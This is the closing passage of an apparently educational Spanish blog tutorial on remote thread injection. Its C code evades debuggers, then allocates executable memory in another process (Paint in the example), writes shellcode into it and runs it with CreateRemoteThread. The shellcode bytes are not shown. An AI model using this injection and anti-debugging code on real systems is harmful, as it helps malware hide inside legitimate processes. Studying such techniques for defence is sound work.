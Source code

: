```c
		MessageBox(NULL, "ESTOY EN UN DEBUGGER >_<", "HOLA", MB_OK); //si detecta que esta en un debugger muestra una ventana con un mensaje
	}else{ 
		
		HANDLE hProcess = OpenProcess(
			PROCESS_ALL_ACCESS, 
			TRUE,
			8664 //PID del proceso
		);
		
		void* exec_mem = VirtualAllocEx(
			hProcess,
			NULL, 
			sizeof(shellcode), 
			MEM_COMMIT | MEM_RESERVE, 
			PAGE_EXECUTE_READWRITE 
		);
		
		WriteProcessMemory(
			hProcess, 
			exec_mem, 
			shellcode, 
			sizeof(shellcode), 
			NULL 
		);
		
		HANDLE hTread = CreateRemoteThread(
			hProcess, 
			NULL,
			0,
			(LPTHREAD_START_ROUTINE)exec_mem, 
			NULL, 
			0, 
			0 
		);
		
		CloseHandle(hProcess);
	}
		
	return 0;
}

```

Cuando lo ejecutamos, podemos ver como se desprende un hilo del proceso donde se inyecto la shellcode, en este caso fue paint

![](/imgs/remote_thread_injection/5.png)

Y si lo corremos en un debugger, muestra la ventanita de que esta en un debugger

![](/imgs/remote_thread_injection/6.png)

Eso ha sido todo, gracias por leer ❤